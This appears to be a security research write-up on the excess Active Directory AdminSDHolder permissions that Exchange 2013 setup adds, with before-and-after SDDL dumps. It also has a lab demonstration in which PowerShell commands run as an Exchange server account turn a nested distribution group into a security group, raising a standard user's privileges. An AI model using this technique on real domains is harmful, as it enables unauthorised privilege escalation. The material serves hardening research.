


Microsoft Exchange of various versions tends to be one of the more common misconfiguration sources on AdminSDHolder from my experience. Changes made by various Microsoft Exchange setup functions can cause opportunities for privilege escalation. Beyond priv-esc the changes made by Exchange to AdminSDHolder are often superfluous and misguided.  In the early days of Exchange and Active Directory it was unfortunately common for IT staff charged with maintaining the systems to have only one user account their admin account. With only one account per person, it was common for those admin accounts to be mail-enabled as well.  This is, of course, a terrible idea because email has long been a vector for malicious attacks. A malicious email opened by a Domain Admin can be a game over scenario for the entire organization compared to an email opened by a standard user that can have a more limited blast radius.  When admin users do not have mail-enabled accounts there is no reason for the various Exchange security groups to be granted rights on AdminSDHolder.

This goes beyond malware laden emails, phishing, and no-click or one-click email attacks targetted at highly privileged administrative accounts in AD.  Exchange itself has long been a target. Any Exchange server exposed to the Internet is very challenging to secure and unfortunately it's also common and necessary for Exchange server to be exposed to the Internet. This is nothing new, but in [2021 things really came to a head as mass exploitation of Microsoft Exchange](https://unit42.paloaltonetworks.com/microsoft-exchange-server-attack-timeline/) became a common theme. Many Exchange attacks allowed the attacker to execute code as the Exchange server.


I recall seeing a "so I became an Exchange server" meme like this sometime during the 2021 Exchange exploit bonanza, but I can't recall or find where I saw it to properly attribute it. The reality is that if you can execute code as the Exchange server, you can perform actions permitted by the system to several of the Exchange security groups.  The same security groups that are granted overprivileged rights on the domain root and AdminSDHolder.

## Microsoft Exchange SE


## Microsoft Exchange 2019


## Microsoft Exchange 2016


## Microsoft Exchange 2013
Tests for Exchange 2013 were performed on the Exch2016Win2012R2.lan domain prior to running Exchange 2016 ADPrep.

The default Windows Server 2012R2 AdminSDHolder SD in SDDL format is:
```
O:DA
G:DA
D:PAI
(A;;LCRPLORC;;;AU)
(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)
(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;BA)
(A;;CCDCLCSWRPWPLOCRRCWDWO;;;DA)
(A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-587653633-1273433430-3975554785-519)
(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)
(OA;CI;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)
(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;PS)
(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)
(OA;;RPWP;6db69a1c-9422-11d1-aebd-0000f80367c1;;S-1-5-32-561)
(OA;;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-32-561)
(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;CA)
```
The default SD includes 23 ACEs in the DACL

Here's the AdminSDHolder SD in SDDL after Exchange 2013 ADPrep:
```
O:S-1-5-21-2868904513-2964857246-3067530164-512
G:S-1-5-21-2868904513-2964857246-3067530164-512
D:PAI
(OA;CIIO;CCDCLC;c975c901-6cea-4b6f-8319-d67f45449506;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CIIO;CCDCLC;c975c901-6cea-4b6f-8319-d67f45449506;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-517)
(OA;CI;RP;4c164200-20c0-11d0-a768-00aa006e0529;;S-1-5-21-2868904513-2964857246-3067530164-1113)
(OA;CI;RP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;RP;9a7ad945-ca53-11d1-bbd0-0080c76670c0;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;RP;bf967a68-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;RP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;RP;bf967991-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;RP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;bf967a06-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;bf967a06-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;3e74f60e-3e73-11d1-a9c0-0000f80367c1;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;3e74f60e-3e73-11d1-a9c0-0000f80367c1;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;bf96791a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;bf96791a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;9a9a021e-4a5b-11d1-a9c3-0000f80367c1;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;934de926-b09e-11d2-aa06-00c04f8eedd8;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;5e353847-f36c-48be-a7f7-49685402503c;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;8d3bca50-1d7e-11d0-a081-00aa006c33ed;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;bf967953-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;bf967953-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;e48d0154-bcf8-11d1-8702-00c04fb96050;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;275b2f54-982d-4dcd-b0ad-e53501445efb;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;bf967954-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;bf967954-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;bf967961-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;bf967961-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;5430e777-c3ea-4024-902e-dde192204669;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;6f606079-3a82-4c1b-8efb-dcc8c91d26fe;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;bf967a7f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;614aea82-abc6-4dd0-a148-d67a59c72816;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;66437984-c3c5-498f-b269-987819ef484b;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;77b5b886-944a-11d1-aebd-0000f80367c1;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;a8df7489-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;a8df7489-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;2cc06e9d-6f7e-426a-8825-0215de176e11;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;3263e3b8-fd6b-4c60-87f2-34bdaa9d69eb;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;WP;28630ebc-41d5-11d1-a9c1-0000f80367c1;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;WP;28630ebc-41d5-11d1-a9c1-0000f80367c1;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;CI;WP;7cb4c7d3-8787-42b0-b438-3c5d479ad31e;;S-1-5-21-2868904513-2964857246-3067530164-1116)
(OA;CI;CCDCLCSWRPWPDTLOCRSDRCWDWO;018849b0-a981-11d2-a9ff-00c04f8eedd8;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(OA;CI;CCDCLCSWRPWPDTLOCRSDRCWDWO;018849b0-a981-11d2-a9ff-00c04f8eedd8;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)
(OA;;RPWP;6db69a1c-9422-11d1-aebd-0000f80367c1;;S-1-5-32-561)
(OA;;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-32-561)
(OA;;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)
(OA;;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)
(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;PS)
(OA;CI;RP;b1b3a417-ec55-4191-b327-b72e33e38af2;;NS)
(OA;CI;RP;1f298a89-de98-47b8-b5cd-572ad53d267e;;AU)
(OA;CI;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)
(A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-2868904513-2964857246-3067530164-512)
(A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-2868904513-2964857246-3067530164-519)
(A;CI;LCRPLORC;;;S-1-5-21-2868904513-2964857246-3067530164-1104)
(A;CI;LCRPLORC;;;S-1-5-21-2868904513-2964857246-3067530164-1117)
(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;BA)
(A;;LCRPLORC;;;AU)
(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)S:AI(AU;SA;WPWDWO;;;WD)
(OU;CIIOIDSA;WP;f30e3bbe-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)
(OU;CIIOIDSA;WP;f30e3bbf-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)
```

I'm bad at math, but that looks like we now have 81 ACEs in the DACL of the AdminSDHolder post-Exchange.  So much for a clean, secure security descriptor template.

Of the 58 additional ACEs that Exchange 2013 adds to the AdminSDHolder DACL, most of them are relatively benign.  Only 3 ACE stand out to me as being readily abusable:

The WriteProperty ACEs on the Public Information and Personal Information property sets are already discussed elsewhere in this repo and the whitepaper.  The WriteProperty groupType could be interesting for abusing any distribution groups that are nested within AdminSDHolder protected privileged groups.

To the lab!
1. I created a standard user account named Jane Doe.
2. I created a distribution group named NestedDistributionGroup.
3. Jane Doe is added to NestedDistributionGroup. NestedDistributionGroup is added to Print Operators.
4. I created another user named ExchangeServer.  They said I could become anything, so I became ExchangeServer.
5. ExchangeServer is added to the Exchange Servers security group.
6. Execute 'runas /netonly /user:ExchangeServer@EX2016on2012R2.lan PowerShell.exe' from a PC with DNS configured
7. Attempt to change the NestedDistributionGroup in the security context of ExchangeServer:
```PowerShell
PS > $group = Get-ADGroup -Identity 'CN=NestedDistributionGroup,OU=Misconfigs,DC=EX2016on2012R2,DC=lan' -Server EX2016WIN2012R2.EX2016on2012R2.lan -Properties *

PS > $group
adminCount                      : 1
CanonicalName                   : EX2016on2012R2.lan/Misconfigs/NestedDistributionGroup
CN                              : NestedDistributionGroup
Created                         : 7/15/2025 9:19:38 AM
createTimeStamp                 : 7/15/2025 9:19:38 AM
Deleted                         :
Description                     :
DisplayName                     :
DistinguishedName               : CN=NestedDistributionGroup,OU=Misconfigs,DC=EX2016on2012R2,DC=lan
dSCorePropagationData           : {7/15/2025 9:50:31 AM, 12/31/1600 6:00:00 PM}
GroupCategory                   : Distribution
GroupScope                      : Global
groupType                       : 2
HomePage                        :
instanceType                    : 4
isDeleted                       :
LastKnownParent                 :
ManagedBy                       :
member                          : {CN=Jane Doe,OU=Misconfigs,DC=EX2016on2012R2,DC=lan}
MemberOf                        : {CN=Print Operators,CN=Builtin,DC=EX2016on2012R2,DC=lan}
Members                         : {CN=Jane Doe,OU=Misconfigs,DC=EX2016on2012R2,DC=lan}
Modified                        : 7/15/2025 9:50:31 AM
modifyTimeStamp                 : 7/15/2025 9:50:31 AM
Name                            : NestedDistributionGroup
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  : CN=Group,CN=Schema,CN=Configuration,DC=EX2016on2012R2,DC=lan
ObjectClass                     : group
ObjectGUID                      : 719a00de-8d7f-4f42-89bf-0698b2af15a7
objectSid                       : S-1-5-21-2868904513-2964857246-3067530164-1610
ProtectedFromAccidentalDeletion : False
SamAccountName                  : NestedDistributionGroup
sAMAccountType                  : 268435457
sDRightsEffective               : 8
SID                             : S-1-5-21-2868904513-2964857246-3067530164-1610
SIDHistory                      : {}
uSNChanged                      : 35906
uSNCreated                      : 35869
whenChanged                     : 7/15/2025 9:50:31 AM
whenCreated                     : 7/15/2025 9:19:38 AM

PS > $group.groupType
2

PS > Set-ADGroup $group -GroupCategory 1

PS > $modifiedgroup = Get-ADGroup -Identity 'CN=NestedDistributionGroup,OU=Misconfigs,DC=EX2016on2012R2,DC=lan' -Server EX2016WIN2012R2.EX2016on2012R2.lan -Properties *

PS > $modifiedgroup.grouptype
-2147483646

PS > $modifiedgroup
adminCount                      : 1
CanonicalName                   : EX2016on2012R2.lan/Misconfigs/NestedDistributionGroup
CN                              : NestedDistributionGroup
Created                         : 7/15/2025 9:19:38 AM
createTimeStamp                 : 7/15/2025 9:19:38 AM
Deleted                         :
Description                     :
DisplayName                     :
DistinguishedName               : CN=NestedDistributionGroup,OU=Misconfigs,DC=EX2016on2012R2,DC=lan
dSCorePropagationData           : {7/15/2025 9:50:31 AM, 12/31/1600 6:00:00 PM}
GroupCategory                   : Security
GroupScope                      : Global
groupType                       : -2147483646
HomePage                        :
instanceType                    : 4
isDeleted                       :
LastKnownParent                 :
ManagedBy                       :
member                          : {CN=Jane Doe,OU=Misconfigs,DC=EX2016on2012R2,DC=lan}
MemberOf                        : {CN=Print Operators,CN=Builtin,DC=EX2016on2012R2,DC=lan}
Members                         : {CN=Jane Doe,OU=Misconfigs,DC=EX2016on2012R2,DC=lan}
Modified                        : 7/15/2025 10:09:08 AM
modifyTimeStamp                 : 7/15/2025 10:09:08 AM
Name                            : NestedDistributionGroup
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  : CN=Group,CN=Schema,CN=Configuration,DC=EX2016on2012R2,DC=lan
ObjectClass                     : group
ObjectGUID                      : 719a00de-8d7f-4f42-89bf-0698b2af15a7
objectSid                       : S-1-5-21-2868904513-2964857246-3067530164-1610
ProtectedFromAccidentalDeletion : False
SamAccountName                  : NestedDistributionGroup
sAMAccountType                  : 268435456
sDRightsEffective               : 8
SID                             : S-1-5-21-2868904513-2964857246-3067530164-1610
SIDHistory                      : {}
uSNChanged                      : 35909
uSNCreated                      : 35869
whenChanged                     : 7/15/2025 10:09:08 AM
whenCreated                     : 7/15/2025 9:19:38 AM
```
8. As we can see based on the .groupType property the NestedDistributionGroup is now a "NestedSecurityGroup".  Here's a screenshot of the final result:

Now that NestedDistributionGroup is a security group, Jane Doe will now have the SID of this group in the security context of her access token, which means she'll also have the SID of the Print Operators group in her access token.  Good thing we defanged Print Operators before using it to allow for providing AdminSDHolder protections to additional security principals!

## Microsoft Exchange 2010

## Microsoft Exchange 2007


## Microsoft Exchange 2003


## Microsoft Exchange 2000


## Microsoft Exchange NT5.5
I won't be digging into Exchange 5.5 at this time as it did not require Activce Directory and had its own directory service.